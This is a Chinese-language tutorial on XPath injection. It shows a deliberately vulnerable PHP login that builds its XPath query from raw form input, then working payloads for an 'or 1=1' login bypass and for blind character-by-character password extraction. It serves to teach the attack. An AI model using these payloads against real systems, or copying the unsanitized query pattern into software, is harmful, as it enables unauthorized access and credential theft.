


**1、什么是xpath注入**

XPath是一种查询语言，它描述了如何在XML文档中查找特定元素（包括属性、处理指令等）。既然是一种查询语言，XPath在一些方面与SQL相似，不过，XPath的不同之处在于它可以用来引用XML文档的几乎任何部分，而不受访问控制限制。在SQL中，一个“用户”（在XPath/XML上下文中未定义的术语）的权限被限制在一个特定的数据库，表，列或者行。使用XPath注入攻击，攻击者可以修改XPath查询语句来执行所选择的操作

XPath盲注攻击可以从一个使用不安全方式嵌入用户信息的应用中提取数据。在输入未被过滤的情况下，攻击者可以提交并执行有效的XPath代码。这种类型的攻击适用于以下情况：攻击者不清楚XML文档的架构，或者错误消息被抑制，一次只能通过布尔化查询来获取部分信息，就像SQL盲注一样。

**2、案例**

xpath_user.xml 文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<users>
<user id="1" username="admin" password="admin"></user>
<user id="2" username="root" password="admin"></user>
<user id="3" username="system" password="system"></user>
</users>
```

漏洞测试文件

```
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
	</head>
	<body>
			<form method="POST">
				用户名：<input type="text" name="username"><br>
			 	密码：<input type="password" name="password"><br>
			 	<input type="submit" value="登录" name="submit">
			</form>
	</body>
</html>
```

```php+HTML
<?php
if(file_exists('xpath_user.xml')){
	$xml=simplexml_load_file('xpath_user.xml');
	if($_POST['submit']){
		$username=$_POST['username'];
		$password=$_POST['password'];
		$sql="//user[@username='{$username}' and @password='{$password}']";
		$resulit = $xml->xpath($sql);
		if(count($resulit)==0){
			echo '登录失败';
		}else{
			echo "登录成功";
		}
	}	
	}
?>
```

```php+HTML
$sql="//user[@username='{$username}' and @password='{$password}']";
select * from users where username=’username’ and password=’password’
```

**4、注入方法**

万能密码登录 

```
admin' or '1'='1
username=admin' or '1'='1 &password=xxxxxxxxxxx&submit=submit
```

 

**5、盲注入**

string-length()获取字符长度

substring 截取字符

```
username=admin'and string-length(@password)=5 or '1'='1&password=0&submit=submit
```

返回正确是就等于登录成功

```
username=admin'and substring(@password,1,1)='a' or '1'='1&password=0&submit=submit
```

 

先获取第一个字符 再获取第二个。admin